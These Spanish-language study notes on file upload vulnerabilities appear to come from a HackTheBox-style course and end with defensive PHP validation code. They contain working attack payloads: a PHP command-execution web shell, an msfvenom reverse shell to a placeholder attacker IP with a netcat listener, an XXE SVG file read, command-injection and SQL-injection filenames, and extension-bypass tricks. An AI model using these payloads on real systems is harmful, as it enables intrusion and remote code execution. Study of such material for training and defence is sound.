0. Determinar que lenguaje corre en el backend del Sistema, una manera simple de determinarlo es con el archive index.ext que se puede fuzzear con la Seclist/Web-Content/we-extensions.txt. Esto no nos servira si el sitio utiliza mas de una extension web o no usa el archive index. Para esto esta la herramienta wappalyzer.

1. "Absent Validation" 
Ahora que sabemos la tecnologia del backend, por ejemplo .php, Podemos subir un archive php con una prueba como "<?php echo "Hello HTB";?>" o "<?php echo gethostname();?>" o "<?php system($_REQUEST['cmd']); ?>" y guardarlo con la extension .php

1.1. "Explotacion"
Ahora que hemos podido identificar la vulnerabilidad, la explotaremos con phpbash https://github.com/Arrexel/phpbash 

1.2. "Reverse shell"
Ahora nos tocara usar una reverse shell o desarrollarla nosotros mismos.
Existe un repertorio e webshells en https://github.com/danielmiessler/SecLists/tree/master/Web-Shells y https://github.com/pentestmonkey/php-reverse-shell. Pero Tambien esta la opcion de usar msfvenom

msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php

Nos ponemos en escucha con netcat 
nc -lvnp OUR_PORT

2. "Client-Side Validation"
2.1 "Back-end Request Modification"
A pesar de que la validacion se este hacienda en el frontend, es possible bypassearla con nuestras herramientas de Desarrollo como burpsuite. 
Podemos intentar camabiar el nombre de la extension del archive y cambiar el contenido el Content-Type por el de nuestra shell.
2.2 "Disabling Front-end Validation"
Existe otra forma de bypassear esto, pero esta vez sin burp. Es manipulando el codigo del front desde el navegador con [CTRL+SHIFT+C] para sacar el Inspector de Pagina y despues seleccionar el boton de subir archive.
Normalmente Tambien podremos ver una function de javascript la cual Podemos visualizer detalladamente si en la consola [CTRL+SHIFT+K] escribimos el nombre de la funcion. Tambien Podemos al editar el codigo, eliminar estas funciones e incluso la clase accept=".jpg,.jpeg,".png"
3.0 "Blacklist filters"
3.1 "Blacklist extension" Es possible bypasear este filtro por que hay ocaciones donde se active un pHp, ya que en la blacklist viene quizas .php, php7, .phps. Tenemos 
- Extensiones inseguras para subir archivos php https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst
- Extensiones inseguras para subir archivos .net https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP
- Seclist https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt

3.Whitelist
Al permitir unos archivos especificamente, suelen usar regex para buscar el archivo, si usamos una extension de tipo .jpeg.php, la condicion de que el formato .jpeg pasara la validacion.

Inyectar caracteres
shell.php%00.jpg, shell.aspx:.jpg, 
%20
%0a
%00
%0d0a
/
.\
.
…
:

4. Content Type
Podemos subir el archivo y modificar el request con burpsuite

MIME Type
Podemos bypasear este metodo escribiendo en las primeros bytes de extension lo que este en lista blanca o Negra.
 - Lista de primeros bytes hex de extension de archivo https://en.wikipedia.org/wiki/List_of_file_signatures

5. Limited File Uploads
En esta seccion se ven otro tipo de extensions como svg, html y xml.
Con estas se puede hacer un xss
Podemos detector el uso de archivos xml con "X-Requested-With: XMLHttpRequest"
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>

Tambien es possible hacer ataques DOS escribiendo archivos en la ruta /etc/passwd por ejemplo.

Inyeccion en el nombre de archivo.

Otro tipo e ataques es la inyeccion en segmentos de codigo donde se use una operacion e Sistema como: "mv file /tmp", se podria intentar
file$(whoami).jpg o file`whoami`.jpg o file.jpg||whoami
Tambien podriamos intentar usar un XSS Payload <script>alert(window.origin);</script>
Incluso un query de sql file';select+sleep(5);--.jpg

Upload Directory Disclosure
Muchas veces no sabemos donde se estan almacenando nuestros archivos que se cargan o no temenos acceso a ellos, para eso hay tecnicas como el fuzzing para determiner el esquema de almacenamiento 

Windows-specific Attacks
Podemos usar algunas de las tecnicas especificadas anteriormente.
Uno de los ataques comunes es el uso de los caracteres reservados como (|, <, >, *, or ?), que son usadas comunmente como wildcards o comodines. Si el servidor no sanitiza correctamente las entradas podriamos intentar acceder a algun otro archivo, similar Tambien Podemos usar nombres reservados para nuestros nombres de archivo como (CON, COM1, LPT1, or NUL), lo que ocasionar[a un error ya que la aplicacion web ya que esta no tendra permisos de escribir un archivo con este nombre. Y finalmente esta la FileName Convention https://en.wikipedia.org/wiki/8.3_filename para sobreescribir archivos xistentes o referir archivos que no existen. Versiones antiguas de windows son limitadas a nombres cortos en archivos, asi que usan una tilde ~ de caracter para completer el nombre del archivo y aqui es donde Podemos tomar ventaja.
Por ejemplo, para referirnos al archivo hackthebox.txt Podemos usar HAC~.TXT o HAC~2.TXT, donde el digito representara a los archivos que haran match con la palabra HAC. Como windows sigue soportando sta conversion, Podemos escribir el archivo WEB~.CONF para sobreescribir el archivo web.conf. 

Preventing File Upload Vulnerabilities
Validacion de extension
En conclusion, se recomienda usar en el codigo el blacklist y whitelist.
Ejemplo en codigo php:
$fileName = basename($_FILES["uploadFile"]["name"]);

// blacklist test
if (preg_match('/^.+\.ph(p|ps|ar|tml)/', $fileName)) {
    echo "Only images are allowed";
    die();
}

// whitelist test
if (!preg_match('/^.*\.(jpg|jpeg|png|gif)$/', $fileName)) {
    echo "Only images are allowed";
    die();
}

Content Validation
No obstante, la validacion de extension no es suficiente, asi que deberemos Tambien aplicar el filtro de Content Validation
$fileName = basename($_FILES["uploadFile"]["name"]);
$contentType = $_FILES['uploadFile']['type'];
$MIMEtype = mime_content_type($_FILES['uploadFile']['tmp_name']);

// whitelist test
if (!preg_match('/^.*\.png$/', $fileName)) {
    echo "Only PNG images are allowed";
    die();
}

// content test
foreach (array($contentType, $MIMEtype) as $type) {
    if (!in_array($type, array('image/png'))) {
        echo "Only PNG images are allowed";
        die();
    }
}

Upload Disclosure

Se recomienda seconder el directorio de archivos cargados, como por ejemplo hacienda un script de download.php para que se cumplan las condiciones necesarias el usuario para poder descargar los archivos, esto reduce las opciones de que carguen scripts maliciosos en el Sistema.
Tambien se recomienda usar las revisions de cabeceras como:Content-Type, Content-Disposition y nosniff, guardar el nombre randomizado y guardar en base de datos el nombre sanitizado.
Otra alternativa Tambien s almacenar el rchivo en un contenedor diferente.

Mas seguridad
Una configuracion critica es deshabilitar las configuraciones que ejecuten commandos de Sistema como exec, shell_exec, system, passthru, entre otras.

Tambien se debe deshanilitar el mostrar cualquier error de Sistema.

Otras configuraciones que se pueden hacer son:
- Limitar el tamano el archivo
- Actualizar cualquier libreria usada
- Escanear cualquier archivo de contener strings maliciosos.
- Utilizar un WAF como segunda capa e seguridad

